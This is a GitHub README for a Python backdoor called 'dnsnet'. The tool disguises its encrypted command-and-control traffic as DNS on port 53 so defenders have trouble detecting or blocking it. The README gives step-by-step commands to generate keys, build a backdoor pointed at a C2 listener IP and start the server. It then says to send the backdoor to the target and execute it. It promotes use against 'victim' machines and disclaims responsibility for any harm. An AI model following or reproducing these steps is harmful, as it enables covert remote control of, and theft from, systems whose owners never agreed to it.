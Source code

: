 # dnsnet (NEW VERSION COMING SOON, DO NOT DOWNLOAD THIS ONE)


# Current Version: BetaV1

![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET masks itself as DNS traffic by communicating through the port 53. On top of it making the traffic less easy to spot, 
it will make dealing with the backdoor alot harder since a company of course cannot block the port and good luck figuring 
out which one of the 999999999 programs that also use the 53 port is the right one. The traffic is also encrypted so that's nice I guess.

# Disclaimer:
Im not responsible for any damage or harm done by this program in the hands of other people.

# Where is this used?:
I originally started coding this because I wanted a sure way to stealth backdoor victim machine during a red team/pen test assesments however
you can use it however you want (I'm not responsible for your actions).

# Update log:
Alpha: 10 times encryption and stabile server end

AlphaV2: Automatic reconnect if connection is lost and manual reset added by pressing ctrl + c on the server end, cryptography import problems solved

BetaV1: Backdoor now remembers where you cd'ed to allowing much better file system exploring, overall small fixes to make the backdoor more stable and usable

# In development?: yes

# How to use (REPLACE "Listener ip" with the c2 ip):
```
git clone https://github.com/R00tendo/dnsnet
cd dnsnet
apt install unrar
unrar e cryptography.rar
pip3 install termcolor
python3 key_generator.py 5 > keys
python3 backdoor_generator.py <Listener ip>
python3 server.py
```
then send the backdoor python file to the target and execute it.
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
Program: Python3
  

